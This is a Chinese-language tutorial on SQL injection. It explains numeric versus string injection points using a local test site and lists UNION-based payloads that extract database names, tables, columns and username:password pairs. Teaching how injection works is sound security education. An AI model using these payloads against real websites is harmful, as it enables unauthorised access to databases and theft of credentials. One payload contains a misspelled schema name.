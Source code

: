 ### 数据类型

#### 数字

~~~bash
数字型 0-9
SQL语句：$sql="select * from sy_guestbook where id=$i";
http://127.0.0.1:8081/web/news.php?id=1
不需要单引号，也可以正常运行。
在数据库中执行：select * from sy_guestbook where id=1;
不用加引号，能正常运行，所以有一些数字型的注入点，不用加引号，就是不用考虑符号的闭合。
~~~

在大多数的网页中，诸如查看用户个人信息，查看文章等，大都会使用这种形式的结构传递id等信息，交给后端，查询出数据库中对应的信息，返回给前台。这一类的 SQL 语句原型大概为 "select * from 表名 where id=1" 若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：
~~~sql
select * from 表名 where id=1 and 1=1
# 数字型驻点常见的注入语句(Payload)
# 查询数据库名和版本
id=-1 union select 1,database(),version() --+    

# 查询指定数据库中的表名
id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security') --+   

# 查询指定数据库中指定表名中的列名字段
id=-1 union select 1,database(),(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users') --+

# 查询指定表中的数据
id=-1 union select 1,database(),(select group_concat(username,':',password) from secyrity.users) --+  
~~~

#### 字符

~~~bash
字符型    a-z 中文，标点符号
SQL语句：$sql="select * from sy_guestbook where gTpl='$g'";
http://127.0.0.1:8081/web/news.php?gtpl=simple
需要单引号或者双引号 ，如果不用的话，那就回报错。会以为当成函数或者参数去执行。所以必须要用到引号，需要考虑符号的闭合，才能正确去执行SQL才能正常执行。
如果这样执行：select * from sy_guestbook where gName=PHP开源多功能留言板-随意留言板官方站;
正确的执行方法：select * from sy_guestbook where gName='PHP开源多功能留言板-随意留言板官方站';
~~~

![1645148860541-e6d7435d-1644-4bac-bd01-0528d928bff5.png](.\SQL注入原理.assets\2504969-20230912132659085-1185713646.png)
